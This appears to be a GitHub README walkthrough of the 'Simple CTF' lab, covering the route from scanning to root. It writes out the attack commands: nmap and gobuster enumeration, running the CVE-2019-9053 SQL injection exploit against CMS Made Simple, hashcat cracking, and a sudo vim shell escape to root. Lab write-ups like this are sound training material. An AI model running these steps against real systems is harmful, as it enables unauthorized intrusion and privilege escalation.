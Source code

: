 # Simple-CTF-walkthrough
#Step 1
 - How many services are running under port 1000?
 - Run nmap -A 10.10.115.133
    - results in: 2 ports under 1000 and 1 port over 1000
        -21/tcp   open    ftp vsftpd 3.0.3 *note-ftp-anon:Anonymous FTP login allowed
        -80/tcp   open    http    Apache httpd 2.4.18
        -2222/tcp open    ssh     Openssh 7.2p2

#Step 2
 - CLI - ftp {target}
    - ({target}:root): Anonymous
        - use: ftp> ls
        - you will see: drxr-xr-x   2 ftp   ftp 4096 Aug 17 2019 pub
    - pub is a directory
        - use: cd /pub
        - you will see: -rw-r--r--  1ftp    ftp 166 Aug 17 2019 ForMitch.txt
        - use: get ForMitch.txt
            -the file will be sent to your directory
        - use: ftp> exit to exit the ftp you signed into
    - You will be back at YOUR root
        - type ls
        - you will see: ForMitch.txt in your files
        - type cat ForMitch.txt
        - you will see: 
                Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

#Step 3
 - Open Firefox
    - Type in the {target IP} in the URL
    - you can add /robots.txt to see if there is anything else too look at 

#Step 4
- Use gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://{target IP}
        - you will have the result: /simple (Status: 301)

#Step 5
- Reopen Firefox and use the {target IP} and add /simple at the end of it in the URL
    - You will see CMS made simple, if you go to the bottom of the page, you will see version 2.2.8
    - Open another tab in firefox and look up: exploitdb
        - open google exploit Database and put CMS made simple 2.2 in the search box
        - you will not find CMS Made Simple 2.2.8, but you will find CMS Made Simple <2.2.10-SQL injection 
    - Click on the hyperlink with CMS Made Simple <2.2.10-SQL injection 
        - you will find: CVE-2019-9053
        - click the download button and recieve the file 46635.py
        - NOTE: do not download more than one file copy of 46635.py or it will not work
#Step 6
- Open your terminal and type in Python2 46635.py -u http://{target IP}/simple/
    - If it does not work you  may need to install request
        - curl -O https://bootstrap.pypa.io/pip/2.7/get-pip.py
        - python2 get-pip.py
        then:
        - python2 -m pip install --upgrade setuptools
        then:
        - python2 -m pip install termcolor

    - If you need to put the syntax in again 'python2 46635.py -u http://{targeIP}/simple/' (without the ''), please run it again. You will start to see the formation of a Salt for password, Username, Email, and a password:
        - Salt for Password found: 1dac0d92e9fa6bb2
        - Username found: mitch
        - Email found: admin@admin.com
        - Password found: 0c01f4468bd75d7a84c7eb73846e8d96

#Step 7 (use sudo su to become root, normal user doesn't seem to work)
    - hashcat your findings
        - hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
    - you will recieve 0c01f4468bd75d7a84c7eb73846e8d96:secret
    - the password is: secret

#Step 8
    - log into ssh mitch@{targetID} -p 2222 
    - password is: secret

#Step 9
    - type: ls and find user.txt
    - cat user.txt
        - Recover G00d j0b, keep up!

#Step 10
    - type: ls /home to return to home directory under Mitch's account
    - you will see two options 'mitch' and 'sunbath'

#Step 11
    - type sudo -l (-l is for list)
    - you will see (root) NOPASSWD: /usr/bin/vim
        -vim is your next answer

#Step 12
    - go to firefox and type GTFOBins in the URL
    - in the sub sections you will see: 'Vim' 'For Windows' 'Base64' 'Python' etc
        - select Vim
        - copy the vim -c ':!/bin/sh', then click on the bubble with Sudo
            - you will see (a) sudo vim -c ':!/bin/sh'
            - copy that syntax and paste it into your terminal under mitch's machine
                - this makes you root
                - next to the (#) type: whoami
                    - you will see: root
                    - type: ls /root
                    - you will see: root.txt
                        -cd /root
                        - you will see: root.txt
                        - cat root.txt
                            -W3ll d0n3. You made it!

